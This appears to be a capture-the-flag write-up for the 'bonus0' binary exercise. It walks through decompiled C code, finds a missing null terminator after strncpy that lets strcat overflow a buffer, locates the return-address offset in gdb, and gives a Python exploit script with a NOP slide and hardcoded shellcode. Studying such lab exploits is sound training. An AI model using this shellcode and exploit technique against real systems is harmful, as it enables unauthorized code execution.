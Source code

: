 Let's disassmble `bonus0`:
``` c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

const char *g_message = " - ";
const char g_space = ' ';

void p(char *target_buffer, const char *message)
{
   char temp_buffer[4104];

   puts(message);

   read(0, temp_buffer, 4096);

   *strchr(temp_buffer, 0xa) = '\0';

   strncpy(target_buffer, temp_buffer, 20);
}

void pp(char *buffer0)
{
   char buffer1[20];
   char buffer2[20];

   p(buffer2, g_message);
   p(buffer1, g_message);

   strcpy(buffer0, buffer2);
   buffer0[strlen(buffer0)] = g_space;

   strcat(buffer0, buffer1);
}

int main()
{
   char buffer0[42];

   pp(buffer0);
   puts(buffer0);

   return 0;
}
```

This code is super strange, but let's look for bugs.
This piece looks interesting:
``` c
void p(char *target_buffer, const char *message)
{
   char temp_buffer[4104];
   ...
   strncpy(target_buffer, temp_buffer, 20);
}

void pp(char *buffer0)
{
   char buffer1[20];
   ...
   p(buffer1, g_message);
   ...
}
```

We have some string `temp_buffer` with length 4014 and a string `buffer1` with length 20.
Then we copy at most 20 character from `temp_buffer` into `buffer1`.

However, what if `temp_buffer` will have all 20 characters?
This means that we will copy them all and don't copy zero terminator.
That's a bug.

Let's think how it may help us.
Let's inspect this code:
``` c
   strcpy(buffer0, buffer2);
   buffer0[strlen(buffer0)] = g_space;
   strcat(buffer0, buffer1);
```

Firstly, we copy `buffer2` into `buffer0` (`buffer2` may be not null-terminated).
Secondly, we append `buffer1` to `buffer0` (`buffer1` may be not null-terminated).
Because both `buffer1` and `buffer2` may be non-null-terminated we can overflow `buffer0`!

Firstly, we need to find bytes that affect return address of `main`:
``` shell
$ gdb bonus0 
(gdb) r       
Starting program: /home/user/bonus0/bonus0 
 - 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHKKKKLLLL
 - 
0000111122223333444455556666777788889999
AAAABBBBCCCCDDDDEEEE00001111222233334444??? 00001111222233334444???

Program received signal SIGSEGV, Segmentation fault.
0x33323232 in ?? ()
```

We see that characters `22223333` affect the return address.

Next we need to paste some shellcode.
I'm storing the shell code on the stack frame of `p` function inside `temp_buffer` string.
``` python
import sys

nop_slide = '\x90' * 256

shellcode = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80" \
            "\x6c\x0e\xff\x01\x80\xe9\x01\x75" \
            "\xf6\xeb\x05\xe8\xea\xff\xff\xff" \
            "\x32\xc1\x51\x69\x30\x30\x74\x69" \
            "\x69\x30\x63\x6a\x6f\x8a\xe4\x51" \
            "\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

#0xbfffe6f0
shellcode_address = '\xf0\xe6\xff\xbf'

print('AAABBBBCCCCDDDDEEEEFFFFGGGGHHHHKKKKLLLL')
print('000111122%s33444455556666777788889999%s%s' % (shellcode_address, nop_slide, shellcode))
```

This almost works.
Last thing we have to do is overcome two `read`s:
if we pass output of above Python script to `bonus0` it will read all text in first `read` (see `p`) call and second will read 0 bytes.

To resolve this I've decided to pad both strings until they are 4096 length.
This way `read`s will retrieve both strings correctly.
*Also I use `sys.stdout.write` instead of `print` to discard newlines.*

``` python
import sys

def pad_to_4096(str):
        return str + '\x01' * (4096 - 1 - len(str)) + '\x0a'

nop_slide = '\x90' * 256

shellcode = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80" \
            "\x6c\x0e\xff\x01\x80\xe9\x01\x75" \
            "\xf6\xeb\x05\xe8\xea\xff\xff\xff" \
            "\x32\xc1\x51\x69\x30\x30\x74\x69" \
            "\x69\x30\x63\x6a\x6f\x8a\xe4\x51" \
            "\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"

#0xbfffe6f0
shellcode_address = '\xf0\xe6\xff\xbf'

sys.stdout.write(pad_to_4096('AAABBBBCCCCDDDDEEEEFFFFGGGGHHHHKKKKLLLL'))
sys.stdout.write(pad_to_4096('000111122%s33444455556666777788889999%s%s' % (shellcode_address, nop_slide, shellcode)))
```